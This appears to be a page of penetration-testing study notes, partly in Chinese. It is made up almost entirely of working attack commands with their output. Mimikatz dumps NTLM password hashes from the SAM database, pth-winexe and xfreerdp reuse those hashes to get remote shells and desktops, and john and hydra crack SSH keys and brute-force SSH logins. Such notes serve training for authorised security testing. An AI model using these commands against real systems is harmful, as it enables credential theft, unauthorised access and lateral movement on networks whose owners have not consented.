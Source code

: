 ```
//enables the SeDebugPrivilge access right required to tamper with another process
mimikatz # privilege::debug
Privilege '20' OK

//elevate the security token from high integrity (administrator) to SYSTEM integrity
mimikatz # token::elevate    //
Token Id : 0
User name :
SID name : NT AUTHORITY\SYSTEM

//dump content of SAM database
mimikatz # lsadump::sam

RID : 000003e9 (1001)
User : Offsec
Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
```

## pass the hash- reusing hashes
参考
https://www.kali.org/penetration-testing/passing-hash-remote-desktop/
```
#smb
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
pth-winexe -U administrator //192.168.1.101 cmd

pth-winexe -U admin/hash:has //192.168.0.101 cmd

#Remote Desktop
apt-get update
apt-get install freerdp-x11
xfreerdp /u:admin /d:win7 /pth:hash:hash /v:192.168.1.101

#-passing hash
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

# Online service cracking 

## SSH cracking
```
# ssh to john, 私钥转为john格式，破解phase密码
root@kali:~# locate ssh2john
/usr/share/john/ssh2john.py
root@kali:~# /usr/share/john/ssh2john.py id_rsa > orestis.hash
root@kali:~# john orestis.hash --wordlist=/usr/share/wordlists/rockyou.txt

hydra -l root -P wordlist.txt 192.168.0.101 ssh
hydra -L userlist.txt -P best1050.txt 192.168.1.103 -s 22 ssh -V

hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
```
